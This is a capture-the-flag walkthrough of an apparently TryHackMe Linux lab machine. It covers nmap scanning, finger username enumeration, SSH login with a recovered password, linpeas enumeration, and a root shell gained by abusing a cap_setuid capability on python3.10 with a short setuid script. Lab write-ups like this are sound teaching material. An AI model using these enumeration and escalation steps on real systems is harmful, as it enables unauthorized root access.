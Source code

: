 ## NMAP
```bash
Starting Nmap 7.97 ( https://nmap.org ) at 2025-06-27 18:43 -0500  
Nmap scan report for 10.10.125.213  
Host is up (0.18s latency).  
Not shown: 997 closed tcp ports (conn-refused)  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   256 9b:d4:52:7d:75:fa:7e:bd:9f:ce:0d:ca:9b:4d:01:61 (ECDSA)  
|_  256 04:6e:71:c4:71:46:5e:cb:0e:3b:3d:4c:c9:66:0b:87 (ED25519)  
79/tcp open  finger  Linux fingerd  
|_finger: No one logged on.\x0D  
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))  
|_http-server-header: Apache/2.4.52 (Ubuntu)  
|_http-title: PrecisionChess IoT - Smart Chessboard Control  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## SSH
SSH has password based authentication, potential vector.

## Finger 
- **Very old protocol**, often used to get usernames and info on logged-in users.
    
- If misconfigured, it can leak valid usernames.
    

![[Images/Pasted image 20250627185352.png|Pasted image 20250627185352.png]]

I tested:

```
finger username@IP
```

root
magnus
Magnus
fabiano

![[Images/Pasted image 20250627185704.png|Pasted image 20250627185704.png]]
Got a hit with fabio, decoded the base64 and got a password for SSH. Knew password based SSH would be notable.

Logged in to SSH and retrieved `user.txt` flag.

## Privilege Escalation

No `sudo -l` permissions 

`cat /etc/passwd`

```bash
fabiano@tryhackme-2204:~$ cat /etc/passwd  
root:x:0:0:root:/root:/bin/bash  
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin  
bin:x:2:2:bin:/bin:/usr/sbin/nologin  
sys:x:3:3:sys:/dev:/usr/sbin/nologin  
sync:x:4:65534:sync:/bin:/bin/sync  
games:x:5:60:games:/usr/games:/usr/sbin/nologin  
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin  
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin  
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin  
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin  
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin  
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin  
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin  
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin  
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin  
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin  
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin  
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin  
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin  
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin  
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin  
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin  
syslog:x:104:110::/home/syslog:/usr/sbin/nologin  
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin  
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false  
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin  
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin  
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin  
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin  
pollinate:x:111:1::/var/cache/pollinate:/bin/false  
ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin  
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin  
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash  
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false  
fwupd-refresh:x:113:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin  
hikaru:x:1001:1001:,,,:/home/hikaru:/bin/bash  
magnus:x:1002:1002:,,,:/home/magnus:/bin/bash  
fabiano:x:1003:1003:,,,:/home/fabiano:/bin/bash
```

`uname -a`

```bash
fabiano@tryhackme-2204:~$ uname -a  
Linux tryhackme-2204 6.8.0-1030-aws #32~22.04.1-Ubuntu SMP Thu Jun  5 08:38:24 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
```

`cat /proc/version`

```bash
fabiano@tryhackme-2204:~$ cat /proc/version  
Linux version 6.8.0-1030-aws (buildd@lcy02-amd64-048) (x86_64-linux-gnu-gcc-12 (Ubuntu 12.3.0-1ubuntu1~22.04) 12.3.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #32~22.04.1-Ubuntu SMP T  
hu Jun  5 08:38:24 UTC 2025  
fabiano@tryhackme-2204:~$
```

`find / -perm -u=s -type f 2>/dev/null`

```bash
fabiano@tryhackme-2204:~$ find / -perm -u=s -type f 2>/dev/null  
/snap/core20/2434/usr/bin/chfn  
/snap/core20/2434/usr/bin/chsh  
/snap/core20/2434/usr/bin/gpasswd  
/snap/core20/2434/usr/bin/mount  
/snap/core20/2434/usr/bin/newgrp  
/snap/core20/2434/usr/bin/passwd  
/snap/core20/2434/usr/bin/su  
/snap/core20/2434/usr/bin/sudo  
/snap/core20/2434/usr/bin/umount  
/snap/core20/2434/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/snap/core20/2434/usr/lib/openssh/ssh-keysign  
/snap/core/17212/bin/mount  
/snap/core/17212/bin/ping  
/snap/core/17212/bin/ping6  
/snap/core/17212/bin/su  
/snap/core/17212/bin/umount  
/snap/core/17212/usr/bin/chfn  
/snap/core/17212/usr/bin/chsh  
/snap/core/17212/usr/bin/gpasswd  
/snap/core/17212/usr/bin/newgrp  
/snap/core/17212/usr/bin/passwd  
/snap/core/17212/usr/bin/sudo  
/snap/core/17212/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/snap/core/17212/usr/lib/openssh/ssh-keysign  
/snap/core/17212/usr/lib/snapd/snap-confine  
/snap/core/17212/usr/sbin/pppd  
/snap/core18/2887/bin/mount  
/snap/core18/2887/bin/ping  
/snap/core18/2887/bin/su  
/snap/core18/2887/bin/umount  
/snap/core18/2887/usr/bin/chfn  
/snap/core18/2887/usr/bin/chsh  
/snap/core18/2887/usr/bin/gpasswd  
/snap/core18/2887/usr/bin/newgrp  
/snap/core18/2887/usr/bin/passwd  
/snap/core18/2887/usr/bin/sudo  
/snap/core18/2887/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/snap/core18/2887/usr/lib/openssh/ssh-keysign  
/snap/core18/1885/bin/mount  
/snap/core18/1885/bin/ping  
/snap/core18/1885/bin/su  
/snap/core18/1885/bin/umount  
/snap/core18/1885/usr/bin/chfn  
/snap/core18/1885/usr/bin/chsh  
/snap/core18/1885/usr/bin/gpasswd  
/snap/core18/1885/usr/bin/newgrp  
/snap/core18/1885/usr/bin/passwd  
/snap/core18/1885/usr/bin/sudo  
/snap/core18/1885/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/snap/core18/1885/usr/lib/openssh/ssh-keysign  
/snap/core22/1621/usr/bin/chfn  
/snap/core22/1621/usr/bin/chsh  
/snap/core22/1621/usr/bin/gpasswd  
/snap/core22/1621/usr/bin/mount  
/snap/core22/1621/usr/bin/newgrp  
/snap/core22/1621/usr/bin/passwd  
/snap/core22/1621/usr/bin/su  
/snap/core22/1621/usr/bin/sudo  
/snap/core22/1621/usr/bin/umount  
/snap/core22/1621/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/snap/core22/1621/usr/lib/openssh/ssh-keysign  
/snap/core22/1621/usr/libexec/polkit-agent-helper-1  
/snap/core22/2010/usr/bin/chfn  
/snap/core22/2010/usr/bin/chsh  
/snap/core22/2010/usr/bin/gpasswd  
/snap/core22/2010/usr/bin/mount  
/snap/core22/2010/usr/bin/newgrp  
/snap/core22/2010/usr/bin/passwd  
/snap/core22/2010/usr/bin/su  
/snap/core22/2010/usr/bin/sudo  
/snap/core22/2010/usr/bin/umount  
/snap/core22/2010/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/snap/core22/2010/usr/lib/openssh/ssh-keysign  
/snap/core22/2010/usr/libexec/polkit-agent-helper-1  
/usr/libexec/polkit-agent-helper-1  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/usr/lib/openssh/ssh-keysign  
/usr/lib/snapd/snap-confine  
/usr/bin/chfn  
/usr/bin/pkexec  
/usr/bin/sudo  
/usr/bin/umount  
/usr/bin/passwd  
/usr/bin/gpasswd  
/usr/bin/newgrp  
/usr/bin/chsh  
/usr/bin/fusermount3  
/usr/bin/su  
/usr/bin/mount
```

`/snap/core18/1885/usr/lib/openssh/ssh-keysign` could be of interest.

Checked out `/home/magnus` and `/home/hikaru` using `ls -la`

Some interesting files like `.bash_history`, not accessible though.

Decided to make life easier and use [linpeas](https://github.com/peass-ng/PEASS-ng). 

Vector found by linpeas.sh:

`/usr/bin/python3.10 cap_setuid=ep`

Used chatGPT to create an exploit script:

```bash
import os
os.setuid(0)
os.system("/bin/sh")
```

```bash
python3.10 exploit.py
```

Gained root shell, found `root.txt` in `/root`



